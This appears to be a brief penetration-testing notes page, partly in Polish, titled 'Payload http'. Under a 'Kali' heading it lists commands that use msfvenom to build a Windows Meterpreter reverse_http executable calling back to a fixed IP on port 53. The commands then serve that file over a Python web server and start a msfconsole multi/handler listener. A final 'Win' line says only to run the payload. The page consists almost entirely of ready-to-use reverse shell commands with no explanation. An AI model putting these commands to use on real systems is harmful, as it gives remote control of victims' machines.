 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# Payload http

**Kali**

{% code fullWidth="true" %}
```python
msfvenom -p windows/x64/meterpreter/reverse_http -f exe LPORT=53 LHOST=10.20.10.31 > revshell_http.exe
python -m http.server 8081
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_http
set lhost 10.20.10.31
set lport 53
run
```
{% endcode %}

**Win**

uruchamiamy payload
